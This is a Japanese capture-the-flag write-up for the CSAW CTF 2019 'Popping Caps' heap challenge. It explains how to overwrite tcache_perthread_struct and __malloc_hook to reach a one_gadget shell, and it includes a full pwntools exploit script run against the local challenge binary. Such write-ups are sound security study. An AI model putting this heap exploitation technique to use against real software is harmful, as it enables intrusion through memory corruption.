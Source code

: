 ```yaml
---
tags: pwn
---
```


# CSAW CTF 2019 Quals - Poppong Caps

これまでに解いた問題: https://hackmd.io/@Xornet/BkemeSAhU

## 公式リポジトリ

<https://github.com/osirislab/CSAW-CTF-2019-Quals>

## Writeup

### Outline

systemのアドレスをくれるので最初からlibc leakがされている、やったぜ。というわけでhook系の書き換えだけでクリアできる。
コマンドはcreate(mallocのみ), edit, deleteの3つ。libc leakが不要なのでshowは無い。
freeは何故かインデックスでは無く確保した領域からの距離を指定してfree出来るので実質任意アドレスをfree出来る。
7回のコマンドでクリアしなくてはならずcreate+editにあたる操作が無いのでDouble Freeしてtcache poisoningでは回数制限に到達する。
じゃあUAFと言いたいところだがdelete時とedit時には扱うポインタを入れてる変数が違っており、しかもfreeした際にeditで使うポインタはクリアされるのでUAFは出来ない。
というわけで[redpwnCTF 2020 - four function heap](/eFJwsVn3R_uH3KWwVftX2A)でも回数削減テクニックで使ったtcache_perthread_entryの書き換えをする。
最後に何故か`malloc(0x38)`が呼ばれているので`__malloc_hook`を書き換える

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

### Binary

outlineでだいたい書いた通り、最初にsystemのアドレスをくれるのでlibc leakはしなくて良い。
コマンドは次の3つ、全て合わせて7回しか使えない

1. malloc: サイズを指定してmallocする。2つポインタ用の変数がありそれらにポインタが代入される。便宜上このポインタ達を`p1, p2`とおく
2. free: `free((long)p1 + idx)`する。したがって実質任意アドレスをfreeできる。
(ほとんど確実に満たしているが)`p1 == p2`なら`p2 = 0`にする。
3. write: `read(0, p2, 8)`する

何故か最後に`malloc(0x38)`が呼ばれている

### 回数制限

最後に`malloc`が呼ばれているので`__malloc_hook`の書き換えということは想像が付く。まず考えられるのはいつもどおりDouble Freeを利用したtcache poisoningだが今回はcreate+editに当たるコマンドが無いので`create -> delete -> delete -> create -> edit -> create -> create -> edit`と8回必要になってしまう。これではもちろん制限を超過するので使えない。

### `mchunk_size`を作る

さて、今回の問題では最初にmallocして確保したポインタ`p1`からの位置がわかるアドレスならどこでもfreeできる。但し、チャンクに`mchunk_size`メンバが無いと死ぬのでそれを作らなくてはならない。
malloc+writeで`mchunk_size`を作ったところで意味のあるチャンクは作れそうに無いしコマンドの無駄使いである。ではどこに用意するかというと`tcache_perthread_struct`である。ここの定義や悪用の仕方は[redpwnCTF 2020 - four function heap](/eFJwsVn3R_uH3KWwVftX2A)を参照して頂くとして、tcacheの管理領域であることから次にどのサイズのmallocでどのアドレスを取るかを決める事ができる。よって、そこに該当する箇所をチャンクとして確保すれば良い。
素のままでは特にfree出来る箇所は無いが、カウンタ部分を適当に立てれば次のようなメモリ配置になってentries[0]部分をfreeすればサイズ0x100のチャンクとしてポインタを入手することが出来る。

```
counts       : 00 00 00 00 00 00 00 00 | 00 00 00 00 00 00 00 00
counts + 0x10: 00 00 00 00 00 00 00 00 | 00 00 00 00 00 00 00 00
counts + 0x20: 00 00 00 00 00 00 00 00 | 00 00 00 00 00 00 00 00
counts + 0x30: 00 00 00 00 00 00 00 00 | 00 01 00 00 00 00 00 00
entries      : ...
```

ここでサイズ部分は`counts[i]`に対応することから何らかのサイズのチャンクを確保してfreeするとここのカウンタが1増えてこのようなメモリにすることが出来る。今回はチャンクサイズにして0x3b0のチャンクを一旦tcacheに送ればカウンタが増えるので`malloc(0x3a8)`を発動させる。

### 次の確保先を操作する

`tcache_perthread_struct`の一部をチャンクとして確保出来る見込みがついたので実際にここをfreeする。deleteコマンドが`p1`からの位置さえ判明していればどこでもfree出来るので`p1 - 0x210`であるここをfreeする。
すると0x100のtcacheにこの部分が入ることから次に`malloc(0xf8)`等を発動させるとここが確保される。
ここで8バイトだけ書き込みが出来るので書き込みを行うと`entries[0]`に当たる部分に書き込みが出来る。ということはここでもしどこかのアドレスを書き込めば次に`malloc(0x18)`のようなサイズ0x20のチャンクを確保出来るようなmallocを発動させると得られるポインタはそこを指すようになる。したがってここに`__malloc_hook`のアドレスを書き込んでwriteを行えば無事に`__malloc_hook`にアドレスを仕込むことが出来る。

## Code

```python
from pwn import *


def select(s, sel, c=b"choice: "):
    s.recvuntil(c)
    s.sendline(str(sel))


def malloc(s, size):
    select(s, 1)
    s.recvuntil(b"How many: ")
    s.sendline(str(size))


def delete(s, idx=0):
    select(s, 2)
    s.recvuntil(b"free: ")
    s.sendline(str(idx))


def write(s, data):
    select(s, 3)
    s.recvuntil(b"in: ")
    s.send(data)


if __name__ == '__main__':
    """
        Arch:     amd64-64-little
        RELRO:    No RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      PIE enabled
    """
    elf = ELF("./popping_caps")
    malloc_got = elf.got["malloc"]
    libc = ELF("./libc.so.6")
    arena_libc = 0x3ebc40
    system_libc = libc.symbols["system"]
    malloc_hook_libc = libc.symbols["__malloc_hook"]
    one_gadget = [0x4f2c5, 0x4f322, 0x10a38c]

    s = process("./popping_caps")
    s.recvuntil(b"system ")
    libc_addr = int(s.recvline().rstrip(), 16) - system_libc
    print(hex(libc_addr))
    malloc(s, 0x3a8)
    delete(s)
    delete(s, -(0x210))
    malloc(s, 0xf8)
    write(s, p64(libc_addr + malloc_hook_libc))
    malloc(s, 0x18)
    write(s, p64(libc_addr + one_gadget[2]))

    s.interactive()

```

## Flag

ローカルでシェル取っただけなのでないです

## 感想

せっかくなので最近使ったtcache_perthread_structを初めて知ったきっかけになった問題を解いてみた。No RELRO(Pertial RELROより弱い)だったりしたのでもしかしたら別解があるのかもしれないが結局思い付かなかった(公式Writeupは`p1`からの距離を全探索してfreeの際にエラーを起こさない場所を探索していた、脳筋かよ)